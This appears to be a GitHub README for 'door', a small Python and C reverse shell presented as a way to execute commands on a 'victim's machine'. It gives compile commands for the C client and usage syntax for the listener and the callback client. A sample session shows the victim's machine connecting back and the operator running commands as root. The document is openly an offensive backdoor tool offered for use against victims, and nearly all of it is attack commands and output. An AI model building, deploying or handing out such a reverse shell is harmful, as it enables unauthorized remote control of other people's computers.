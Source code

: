 > A Tiny REVERSE CONSOLE that allows you excute command on victim's machine.
>
> Python version Support both Python 2 & 3, no thirdpart dependencies.
> There is also a C version client side program Support Linux & Windows.
> WARN: (Server <=> Client communications not encrypted)

### Compile C version `door.c`
```bash
# Windows CL
$> cl door.c /O1 /D WIN32 /Fe door /link /subsystem:console
# Windows or Linux gcc
$> gcc -Wall -O1 door.c -o door
```

### How To Use?
```bash
$> ./server.py bind_address:bind_port
$> ./door.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example (C version has the same argument)
$> ./door.py 127.0.0.1:4433 # default retry interval 60 seconds
$> ./door.py 127.0.0.1:4433:60
```

## Example
#### Your Machine
```bash
root@server 07:47 /home $ ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 door
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

#### Victim's Machine
```bash
root@boy 07:47 /home $ ./door *.*.*.*:2345
```
End.
